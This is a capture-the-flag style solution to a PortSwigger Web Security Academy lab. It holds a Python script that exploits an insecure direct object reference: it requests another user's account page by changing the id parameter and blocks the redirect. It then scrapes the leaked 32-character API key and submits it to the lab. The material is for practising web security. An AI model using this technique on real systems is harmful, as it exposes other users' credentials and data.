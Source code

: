 # Lab: User ID controlled by request parameter with data leakage in redirect

Link to lab: https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter-with-data-leakage-in-redirect

## Solution

```python
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup


url = 'https://0a6a0015034a7477c52219e300240091.web-security-academy.net/'



params = {
    'id': 'carlos',
}  

response = requests.get(
    url + 'my-account',
    params=params,
    verify=False,
    allow_redirects=False
)

pattern = r'\b\w{32}\b'
match = re.search(pattern, response.text).group()


data = {
    'answer': match,
}

response = requests.post(
    url + 'submitSolution',
    data=data,
    verify=False,
)
print(response.text)
```